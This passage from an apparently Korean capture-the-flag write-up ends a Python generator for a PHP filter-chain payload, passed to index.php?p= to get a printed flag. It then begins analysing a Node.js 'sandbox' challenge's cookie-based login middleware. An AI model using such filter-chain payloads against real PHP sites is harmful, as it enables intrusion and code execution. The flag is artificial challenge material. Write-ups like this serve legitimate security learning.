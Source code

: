 ```python
P1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp"

php_filter += '+' * (8096 - len(php_filter))

print(php_filter)
```      
    
출력된 결과를 `index.php?p=`에 넣어주면 아래와 같이 `FLAG`를 얻을 수 있다.     

<img src="images/Multiline PHP challenge/2.JPG">    

### FLAG     
hspace{5525f4bd51f0c29ac4f7f762813af852}     
      
## sandbox     

전역 변수로 선언된 `var lastUid = 0` 변수는 유저가 한 명씩 생성될 때마다 값이 1씩 증가한다.   
                
`users.add({ username: "admin", password: hashPasswd(rand()), uid: lastUid++ })` 코드로 인해 새로운 유저가 부여받는 `lastUid` 은 1이상의 값을 갖는다.    
           
```javascript
app.use((req,res,next) => {
	req.userUid = -1
	req.userData = ""

	let data = req.cookies.data
	let uid = req.cookies.uid
	let passwd = req.cookies.passwd

	if(uid == undefined || passwd == undefined)
		return next()

	let found = false
	for(let e of users.entries())
		if(e[0].uid == uid && e[0].password == passwd)
			found = true

	if(found){
		req.userUid = uid
		req.userData = data
	}

	next()
```
